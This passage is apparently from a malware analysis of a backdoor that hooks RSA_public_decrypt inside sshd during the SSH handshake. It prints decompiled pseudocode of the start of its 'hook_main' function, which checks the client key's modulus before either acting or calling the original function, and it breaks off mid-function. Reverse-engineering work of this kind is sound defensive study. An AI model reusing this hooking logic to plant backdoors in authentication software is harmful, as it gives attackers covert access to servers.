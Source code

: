 In this section we describe the functionality of the main hooking function `hook_main`.

After backdoor initialisation, `hook_main` will be executed when the `sshd` process calls the `RSA_public_decrypt` function to verify a client's public key during the SSH handshake:

```c
Status hook_main(RSA *r, global_ctx *ctx, uint32_t *status)
```

As discussed earlier, this function can be called in the context of three functions: `RSA_public_decrypt`, `RSA_get0_key`, `EVP_PKEY_set1_RSA`.

However, we only managed to trigger it with `RSA_public_decrypt` (if the backdoor finds a way to hook at least one of them, the others are skipped).

The pseudocode of the beginning of the `hook_main` function is shown below:

```c
  if ( !ctx )
  {
_exit:
    if ( !ret_status )
      return Error;
    goto _call_original;
  }
  if ( ctx->hook_finished
    || !rsa_key
    || (hfuncs = ctx->hfuncs) == 0LL
    || (RSA_get0_key = hfuncs->RSA_get0_key) == 0LL
    || !hfuncs->BN_bn2bin )
  {
    ctx->hook_finished = 1;
    goto _exit;
  }
  if ( status )
  {
    rsa = rsa_key;
    *ret_status = 1;
    RSA_get0_key(rsa, &n, &e, 0LL);
    if ( n )
    {
      if ( e )
      {
        ossl = ctx->hfuncs;
        if ( ossl )
        {
          BN_num_bits = ossl->BN_num_bits;
          if ( BN_num_bits )
          {
            n_bits = (BN_num_bits)();
            if ( n_bits <= 0x4000 )
            {
              n_bytes_count = (n_bits + 7) >> 3;

              // check n size in bytes
              if ( n_bytes_count - 20 <= 516 )
              {
                BN_bn2bin_res = ctx->hfuncs->BN_bn2bin(n, &modulus.magic_params);
                if ( BN_bn2bin_res >= 0 )
                {
                  n_size = n_bytes_count;
                  if ( n_bytes_count >= BN_bn2bin_res )
                  {
                    if ( BN_bn2bin_res <= 0x10 )
                      goto _call_original;
                    if ( !modulus.magic_params.a )
                      goto _call_original;
```